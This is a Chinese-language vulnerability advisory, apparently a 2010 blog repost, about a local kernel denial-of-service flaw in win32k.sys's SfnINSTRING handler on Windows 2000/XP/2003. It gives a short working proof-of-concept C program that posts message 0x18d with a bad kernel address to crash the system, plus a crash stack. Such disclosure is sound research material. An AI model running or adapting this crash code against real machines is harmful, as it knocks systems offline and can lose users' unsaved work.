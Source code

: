 ```yaml
---
title: Windows 2000/XP/2003 win32k.sys SfnINSTRING 本地内核拒绝服务漏洞
description: post/Windows-2000-XP-2003-win32k.sys-SfnINSTRING-local-DOS.html">Windows2000/XP/2003win32k.sysSfnINSTRING本地内核拒绝服务漏洞影响范围:post/Deepin-GHOST-XP-SP3-V9.0-ISO.html">MicrosoftWindowsXP/2000/2003全补丁漏洞细节：Win32k.sys在DispatchMessage时，会最后调用到xxxDefWindowProc,这个函数在处理某些消息时，会调用gapfnScSendMessage这个函数表中的函数来处理，其中2000/post/Deepin-LiteXP-Windows-XP-SP3-V6.2.html">xp/2003下在处理0x18d号消息时，会有一个名为post/Windows-2000-XP-2003-win32k.sys-SfnINSTRING-local-DOS.html">SfnINSTRING的函数，这个函数当lParam不为空时，直接认为lParam是内存指针，并直接从地址中取出数据，尽管函数内使用了SEH，但是只要传递错误的内核地址，仍然会引发系统崩溃
date: 2010-04-27 11:29:16
category: 漏洞信息
tags: ['漏洞信息', '内核', 'Windows']
post_id: 1125
alias: Windows-2000-XP-2003-win32k.sys-SfnINSTRING-local-DOS
ViewNums: 2998
---
```


[Windows 2000/XP/2003 win32k.sys SfnINSTRING 本地内核拒绝服务漏洞](/blog/windows-2000-xp-2003-win32ksys-sfninstring-local-dos)
影响范围:[Microsoft Windows XP](/blog/deepin-ghost-xp-sp3-v90-iso)/2000/2003 全补丁

漏洞细节：

Win32k.sys 在DispatchMessage时，会最后调用到xxxDefWindowProc,这个函数在处理某些消息时，会调用gapfnScSendMessage这个函数表中的函数来处理，其中2000/[xp](/blog/deepin-litexp-windows-xp-sp3-v62)/2003下在处理0x18d号消息时，会有一个名为[SfnINSTRING](/blog/windows-2000-xp-2003-win32ksys-sfninstring-local-dos)的函数，这个函数当lParam不为空时，直接认为lParam是内存指针，并直接从地址中取出数据，尽管函数内使用了SEH，但是只要传递错误的内核地址，仍然会引发系统崩溃

测试代码：

#include "stdafx.h"
#include "windows.h"
int main(int argc, char* argv[])
{

printf("Microsoft [Windows](/blog/windows-server-2008-x86-dvd-chs) Win32k.sys SfnINSTRING Local D.O.S Vuln
By MJ0011
th_decoder@126.com
PressEnter");

getchar();
HWND hwnd = FindWindow("DDEMLEvent" , NULL);

if (hwnd == 0 )
{
   printf("cannot find DDEMLEvent Window!
");
   return 0 ;
}

PostMessage(hwnd , 0x18d , 0x0 , 0x80000000);

return 0 ;
}

全补丁的[XP](/blog/deepin-litexp-windows-xp-sp3-v62)运行此代码立即蓝屏

常见崩溃栈：

kd> kc

win32k!SfnINSTRING
win32k!xxxDefWindowProc
win32k!xxxEventWndProc
win32k!xxxDispatchMessage
win32k!NtUserDispatchMessage
....

[Windows 7](/blog/windows-7-rtm-build-760016385)/Vista 无此问题

via [mj0011](http://hi.baidu.com/mj0011)

